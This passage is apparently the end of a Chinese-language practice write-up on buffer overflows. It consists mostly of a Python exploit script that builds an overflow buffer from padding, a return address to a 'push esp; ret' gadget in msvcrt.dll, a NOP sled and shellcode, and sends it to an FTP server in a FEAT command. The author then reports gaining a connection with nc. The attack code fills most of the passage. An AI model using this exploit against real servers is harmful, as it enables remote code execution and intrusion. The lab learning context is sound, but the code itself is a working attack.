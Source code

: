 ```python
"\x3e\xff\x0e\x67\x47\x1d\xaf\x88\x92\xa5\xdf\xc2\xbe\x8c\x77"
"\x8b\x2b\x8d\x15\x2c\x86\xd2\x23\xaf\x22\xab\xd7\xaf\x47\xae"
"\x9c\x77\xb4\xc2\x8d\x1d\xba\x71\xad\x37")
 
#----------------------------------------------------------------------------------#
# Badchars: \x00\x0A\x0D                                                           #
# 0x77c35459 : push esp #  ret  | msvcrt.dll                                       #
# shellcode at ESP => space 749-bytes                                              #
#----------------------------------------------------------------------------------#
 
buffer = "\x90"*20 + shellcode
evil = "A"*246 + "\x32\x31\xd9\x7d" + buffer
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.80.128',21))
 
s.send('FEAT ' + evil + '\r\n')
 
s.close()
```

重启服务器，执行exp后，使用nc连接成功！

![from_shellcode_to_buffer_overflow_practical_experience_17](from_shellcode_to_buffer_overflow_practical_experience_17.jpg)

### 3.4 End

NULL.

## 四、End

nonnno！
